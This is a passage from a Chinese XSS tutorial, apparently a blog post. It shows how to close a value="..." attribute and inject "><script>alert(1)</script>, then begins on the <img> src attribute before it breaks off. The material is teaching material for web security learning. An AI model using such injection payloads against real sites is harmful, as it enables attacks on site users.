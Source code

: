
这里我们发现了 我们输入的值 被当做参数了

value="1">

这里我们就想到了 sql注入的闭合了

### <script>标签

```cobol
value="1">
 
如果我们自己将其闭合呢
 
我们输入 ">

就会变为

value="">">
 
这里 其实就是
 
value="">
">

然后我们构造恶意代码

value=""><script>alert(1)</script>
">
 
就会实现xss注入
```

所以payload就是

```xml
"><script>alert(1)</script>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/8d92917fe568901551abf35b3c1ab6b0.png" alt="" style="max-height:179px; box-sizing:content-box;" />


### <img>标签

#### src

是资源的标签

一般

```
<img src="/i/eg_tulip.jpg" />
```

这样使用
